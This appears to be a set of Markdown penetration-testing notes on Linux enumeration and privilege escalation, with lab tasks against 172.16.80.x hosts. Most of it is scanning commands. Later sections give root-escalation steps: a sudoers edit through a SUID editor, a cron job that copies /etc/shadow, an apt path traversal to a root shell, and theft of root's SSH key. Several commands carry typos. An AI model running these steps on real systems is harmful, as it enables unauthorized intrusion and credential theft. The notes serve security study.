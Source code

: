 # Linux Exploitation - Infromation gathering

[The Cathedral and the Bazaar](http://www.catb.org/~esr/writings/cathedral-bazaar/cathedral-bazaar/index.html)

## Remote Enumeration

`nmap -O --osscan-guess <IP Address>`  
`nmap -v -sT -O <IP Address>`  
`nmap -v -sS -sU -sV -n <IP Address>`

#### Enumerating NFS

[Network File System](https://en.wikipedia.org/wiki/Network_File_System), [RPC](https://en.wikipedia.org/wiki/Open_Network_Computing_Remote_Procedure_Call)  
`nmap -sT -sU -sV -p2049 <IP Address>`  
`nmap --script nfs-ls,nfs-showmount,nfs-statfs <IP Address>`  
Alternatively, `showmount -e <IP Address>`

After enough information is gathered:  
`mkdir -p /mnt/home/bob`  
`mount -t nfs <NFS Server IP>:/home/bob /mnt/home/bob -o nolock`  
Then we can just cd into directory: `cd /mt/home/bob`

#### Enumerating Portmapper (rbcbind)

[Portmap](https://en.wikipedia.org/wiki/Portmap)  
`nmap --script rpc-grinf,rpcinfo <IP Address> -p 111` or `rpcinfo -p <IP Address>`

#### SMB Shares(Samba)

[Samba](https://en.wikipedia.org/wiki/Samba_(software)) is linux implementation of [SMB/CIFS](https://en.wikipedia.org/wiki/Server_Message_Block).  
`nmap -sT -sU -sV <IP Address> -p135,137,138,139,445 --open`  
`nmap --script smb-enum-shares <IP Address>`  
`smbclient -L <IP Address>`  
`smbmap -H <IP Address>`  
[smbmap](https://github.com/ShawnDEvans/smbmap)

`smbclient \\\\<IP Address>\\www`  
Another method is:  
`mkdir /mnt/www`  
`mount -t cifs \\\\<IP Address>\\www /mnt/www`

#### SMB Users

- Method 1: Bash For Loop  
    [Statistically-Likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)
```bash
for u in $(cat users.txt);
    do rpcclient -U "" <IP Address> -N \
    --command="lookupnames $u";
done | grep "User:1"
```

- Method 2: enum4linux
[enum4linux](https://github.com/CiscoCXSecurity/enum4linux)
`enum4linux <IP Address>`

#### Enumerating SMTP Users
[verbs](https://cr.yp.to/smtp/vrfy.html)
[sendmail](https://www.proofpoint.com/us/products/email-protection/open-source-email-solution)

`nmap --script smtp-commands <IP Address> -p 25`
`nc <IP Address> 25` or `telnet <IP Address> 25`

We are interested in RCPT, VRFY and EXPN verbs.

First, `telnet <IP Address> 25` and then we issue HELO verb.
[smtp-user-enum by pentest monkey](http://pentestmonkey.net/tools/user-enumeration/smtp-user-enum) for autamtic.

***
***
## Local Enumeration

#### Network Information

1. How is the exploited machine connected to the network?
2. Is the machine multi-homed? Can pivot into other hosts in the other segments?
3. Do we have unfettered outbound connectivity to the Internet pr is egress traffic limited to certain ports?
4. Is there a firewall between me and other devices/machines?
5. Is the machine I'm on, communicating with other hosts? If so, what is the purpose or function of the hosts that my current machine is communicating with?
6. What protocols are being used that are orginating from my actively exploited machine? Are we initiating FTP connections or other connections (SSH, etc.) to other machines?
7. Are other machines initiating a connection with me? If so, can that traffic be intercepted or sniffed as cleartext in transit? Is it encrypted?


`ifconfig -a`
`route -n`
`traceroute -n <ip address>`
`cat /etc/resolv.conf` - dns information
`arp -en`
`netstat auntp`
[netstat without netstat](https://staaldraad.github.io/2017/12/20/netstat-without-netstat/)
`ss`
`ss -twurp`
[portquiz.net](http://portquiz.net/)
`nmap -sT -p4444-4450 portquiz.net` - Outbound port connectivity.


![new.png](Pictures/b1.png)

#### System Information


![new.png](Pictures/b2.png)
![new.png](Pictures/b3.png)
![new.png](Pictures/b4.png)
![new.png](Pictures/b5.png)
![new.png](Pictures/b6.png)

[LinEnum](https://github.com/rebootuser/LinEnum)
[Linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
[unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check)
[mimipenguin](https://github.com/huntergregal/mimipenguin)
[Local Linux Enumeration & Privilege Escalation cheat sheet](https://web.archive.org/web/20200218150604/https:/www.rebootuser.com/?p=1623)
[Basic privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[Local UNIX PrivEsc Aggregation](https://github.com/FuzzySecurity/Unix-PrivEsc)

***
***

`nmap -sT <ip address> -p79`
`nmap --script finger <ip address> -p79`
`finger sshd@<ip addresss>`
`for name in $(cat /usr/share/wordlists/metasploit/unix_users.txt); do finger $name@<ip address>; done > valid_users.txt`
`python linuxprivchecker.py > enum`
`sudo /usr/bin/apt edit_sources ../../../../tmp/foo`
Then select vim and type `!sh` we ill be root.
***
***

Task 1: Identify Operating Systems, Ports/Services and Versions
`nmap -sT -O -sV --version-all 172.16.80.1/24`
Task 2: Enumerate Any SMTP Servers for Enabled Methods and users
`nmap --script smtp-commands 172.16.80.27 -p25`
`nc 172.16.80.27 25`
Task 3: Enumerate the Samba Server For Version, Users, Available Shares and Content
`enum4linux -r 172.16.80.22 | grep "Local User"`
`enum4linux -r 172.16.80.27 | grep "Local User"`
`smbmap -H 172.16.80.22`
`smbmap -H 172.16.80.27`
`nmap --script smb-enum-shares 172.16.80.22 -p445`
`smbclient -N \\\\172.16.80.22\\tmp -U ""`
`nmap --script smb-enum-shares 172.16.80.27 -p 445`
`smbclient -N \\\\172.16.80.27\\web -U ""`
`nmap --script smb-os-discovery 172.16.80.22 -p 445`
`nmap --script smb-os-discovery 172.16.80.27 -p445`
Task 4: Identify NFS Shares and Content
`nmap --script nfs-ls 172.16.80.27`
Task 5: Execute a Nmap Vulnerability Script Scan Against Discovered Hosts / Ports
`nmap --script +vuln -p80,1999,8180,35316 172.16.80.22`
`nmap --script +vuln -p4433 172.16.80.24`
`nmap --script +vuln -p2049,445,80,60666 172.16.80.27`
***
***

Task 1: Enumerate for SUID Executables
`find / -perm -4000 2>/dev/null`
`/usr/sbin/vudo`
`/usr/sbin/vudo -f /etc/sudoers`
`lowpriv ALL=(root) NOPASSWD: ALL`
`:wq!`
`sudo bash`
`ls /root/secret`

Task 2: Gather System Information And Get Root
`find /etc/cron* -type f -perm -o+w -exec ls -l {} \;`
`/etc/cron.hourly/oddjob`
`cat /etc/crontab`
`echo -e '\#!/bin/bash\n/bin/cat /etc/shadow > /tmp/shadow' > /etc/cron.hourly/oddjob`
`$ cd /root/.ssh
`cd /root/.ssh && cat /root/.ssh/id_rsa`
`cat /etc/ssh/sshd_config |grep Pub`
`mkdir /home/lowpriv/.ssh`
`cp /root/.ssh/id_rsa /home/lowpriv/.ssh`
`chmod o-rwx /home/lowpriv/.ssh/id_rsa`
`ssh -i /home/lowpriv/.ssh/id_rsa root@localhost`
***
***